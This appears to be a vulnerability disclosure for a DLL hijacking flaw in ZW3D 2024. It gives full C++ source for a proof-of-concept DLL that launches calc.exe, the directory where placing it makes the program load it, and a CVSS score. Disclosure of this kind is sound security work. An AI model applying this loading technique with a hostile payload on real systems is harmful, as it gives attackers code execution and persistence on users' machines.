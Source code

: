 # Vulnerability exploit

To demonstrate the effect of a simple attack, the following is a simple code to generate a DLL, which acts as a pop-up window and starts "calc.exe"：


```C++
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

#include "windows.h"
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
	// evil code
	MessageBox(NULL, TEXT("已加载 evildll"), TEXT("test"), MB_OK);
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi;
	CreateProcess(TEXT("C:\\Windows\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);

	////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////


    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```
![image](https://github.com/q1jun/ZW3D_DLL_hijack/assets/57565901/44735207-1796-44af-a217-ed721d8a60ef)

After compiling it into a DLL file, put it into the "C:\Users\{username}\AppData\Roaming\ZWSOFT\ZW3D\ZW3D\custom\apilibs" or "{Installation Path}\apilibs" directory. The "apilibs" directory does not exist after the default installation. Yes, you can create the directory manually:
![image](https://github.com/q1jun/ZW3D_DLL_hijack/assets/57565901/93186e63-4da4-416d-9f0e-cd5a549a35f5)

Put the compiled "evildll.dll" file into:
![image](https://github.com/q1jun/ZW3D_DLL_hijack/assets/57565901/3c35e3da-05a1-4f0b-b8d5-edfc27675935)

Start "ZW3D 2024", trigger the pop-up window and pop-up calculator, successfully execute the malicious DLL, and achieve a simple attack effect:
![image](https://github.com/q1jun/ZW3D_DLL_hijack/assets/57565901/7a602a99-dea0-4d36-b16b-a414ab1b890e)


CVSS3.1 score：8.2
CVSS:3.1/AV:L/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H
